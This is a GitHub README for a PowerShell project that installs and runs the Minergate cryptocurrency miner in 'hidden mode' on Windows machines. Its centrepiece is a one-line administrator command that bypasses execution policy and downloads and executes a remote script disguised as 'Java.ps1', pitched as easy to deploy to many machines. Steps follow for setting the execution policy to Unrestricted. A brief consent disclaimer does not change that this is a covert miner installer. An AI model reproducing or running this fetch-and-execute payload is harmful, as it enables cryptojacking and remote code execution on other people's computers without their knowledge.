 # Minergate Deployment and Running

Install and Run Minergate-CLI in Hidden Mode

_Host_: https://api.minergate.com

### Introduction

This project I undertook while running a small graphics powered farm while I was improving on my coding skills. I will slowly update all the source code I used to install and deploy and monitor my farm. 

Please do NOT use this without the consent of the person who owns the computer. This code is NOT to be used for malicious purposes. 

### Example (Works in Win 10 Only)

This executes a the code in this git via one line of code only. It makes it extremely easy to deploy to lots of machines. I will publish the guide on how to do this soon. 

Run CMD as Administrator and paste this script in:

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/Hawkryption/dd55e0a282a70f3af63ed792f5eca570/raw/aec24c2aca6d41f521d0dc90cd6749a4c553e613/Java.ps1'))"


### Using this Powershell Script

#### 1. Download Install_Minergate.ps1 and Edit the Code

Download Install_Minergate.ps1 and place it in your C:\ Directory. Register an account with Minergate.com and replace the email address with your own in the code. To edit the code right click the file and click edit.

#### 2. Lunch Powershell in Administrator Mode

Click on Start and type Powershell -> Right click on "Windows Powershell" and then "Run as Administrator"

#### 3. Set Execution Policy

By default Windows does not allow the execution of Powershell scripts. This is by design to stop remote/local execution out of the box for hackers to take advantage of. Please be aware that when you set this you are allow unrestricted script execution access to your PC and as such any application can remotely execute scripts. You can isolate it to just one session that has unrestricted access. You will need to find out how to complete that if it concerns you.

You must launch Powershell in Administrator mode and type the following: (Without "")

**"cd \"** cd \ Press Enter

![Alt text](https://github.com/MetalH47K/Minergate-Powershell/blob/master/cd.PNG?raw=true "cd \")

**"_Set-ExecutionPolicy Unrestricted_"** Press Enter

Powershell will then ask:

**Execution Policy Change**

The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): 

You need to choose: "[A] Yes to All" **Press A**

![Alt text](https://github.com/MetalH47K/Minergate-Powershell/blob/master/Set-ExecutionPolicy%20Unrestricted.PNG?raw=true "Set-ExecutionPolicy Unrestricted")

#### 4. Execute Script

Now you are ready to execute the script. Simply type without brackets **".\Install_Minergate.ps1"**


